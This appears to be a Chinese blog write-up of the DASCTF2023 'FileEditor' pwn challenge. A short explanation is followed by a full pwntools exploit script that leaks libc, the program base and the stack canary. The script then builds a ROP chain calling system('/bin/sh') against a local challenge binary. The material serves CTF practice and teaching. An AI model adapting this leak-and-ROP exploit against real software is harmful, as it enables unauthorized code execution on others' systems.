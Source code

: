 ```yaml
---
title: DASCTF2023_FileEditor
date: 2023-07-26 10:42:58
tags:
- practice
description: DASCTF2023
---
```


bilibiliwold让我错过了dasctf和巅峰极客(估计去了也是被虐555)，回来之后植物大战僵尸玩累了就写了一会儿题，感觉这个题挺考验逆向的，题目并没有多难，细心就好(

刚进去连main函数都找不到(难绷，不过我们可以通过init函数找到入口

![1690339686406](../images/1690339686406.png)

在这个函数中，我们发现可以把堆上的内容复制到栈上，然后利用find函数，就可以把我们需要的信息打出来

![img](../images/6fc9771664a77eb22d4b17d7d9d5d190.png)

比如这里我们就可以泄露puts的地址，findstring就会给我们打出来，同时我们也可以利用show来打，都可以

```python
from pwn import*
p=process('./pwn1')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
debug=0
menu="> choose:"
if debug==1:
	context.log_level='debug'
	gdb.attach(p,'b$rebase(0x2154)')
def sc(choice):
	p.recvuntil(menu)
	p.sendline(str(choice))


def open():
	sc(1)
	

def show():
	sc(2)
	

def insert(content,n,m=1):
	sc(3)
	p.recvuntil('> To insert m lines before line n, please enter n m:')
	p.sendline(str(n))
	p.sendline(str(m))
	p.recvuntil('> Please enter the content to be inserted in sequence:')
	p.sendline(content)


def delete(m=1,n=1):
	sc(4)
	p.recvuntil('> Please enter the starting line (m) and the number of lines to delete (n):')
	p.sendline(str(m))
	p.sendline(str(n))	
	
	
def find(payload):
	sc(7)
	p.recvuntil('> Please enter the string to search for:')
	p.sendline(payload)

def edit(idx,content):
	sc(6)
	p.recvuntil('modified:')
	p.sendline(str(idx))
	p.recvuntil('new content:')
	p.sendline(payload)
	
	
def save():
	sc(9)
open()

payload=payload=b'a'*0x37+b'b'+b'\xff'+b'a'*47+b'\x00'+b'a'*0x8
print(len(payload))

insert(payload,1)
find('a')
p.recvuntil('aaab')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x8459a
print("libc_base",hex(libc_base))
binsh=libc_base+libc.search(b'/bin/sh\x00').__next__()
system=libc_base+libc.sym['system']

p.recvuntil('> Do you want to continue searching? (y/n)')
p.sendline('n')
context.log_level='debug'
payload=b'a'*0x3f+b'b'+b'\xff'+b'a'*39+b'\x00'+b'a'*0x8
edit(1,payload)
find('a')
p.recvuntil('aaab')
p.recvuntil('aaab')
pro_base=u64(p.recv(6).ljust(8,b'\x00'))-0x2a60
print(hex(pro_base))

p.recvuntil('searching? (y/n)')
p.sendline('n')


payload=b'a'*0x67+b'b'
edit(1,payload)
show()
pop_rdi=pro_base+0x2ac3
ret=pro_base+0x101a

p.recvuntil(b'aaab')
canary=u64(p.recv(8).ljust(8,b'\x00'))-0x0a

payload=b'c'*0x68+p64(canary)+b'a'*8+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)
edit(1,payload)
print(len(payload))

#find('c')
p.interactive()

```

